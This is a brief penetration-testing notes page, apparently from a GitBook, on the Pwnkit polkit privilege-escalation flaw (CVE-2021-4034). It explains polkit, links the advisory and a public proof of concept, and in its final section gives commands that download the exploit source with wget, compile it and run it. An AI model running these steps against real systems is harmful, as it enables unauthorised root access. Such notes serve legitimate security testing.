 # \[CVE-2021-4034] - Pwnkit

## Brief

{% hint style="info" %}
Discovered in **January 2022**

**Polkit** can be used to determine whether you have the requisite **permissions** to **execute something**. It is integrated with systemd and is much more configurable than the traditional sudo system. Sometimes referred to as the "sudo of systemd", providing a granular system with which to assign permissions to users.
{% endhint %}

{% embed url="https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt" %}
More
{% endembed %}

## Exploit

```bash
# Check with :
./linux-exploit-suggester
```

{% embed url="https://github.com/arthepsy/CVE-2021-4034" %}
POC
{% endembed %}

```bash
wget https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c
gcc cve-2021-4034-poc.c -o cve-pwnkit
./cve-pwnkit
```
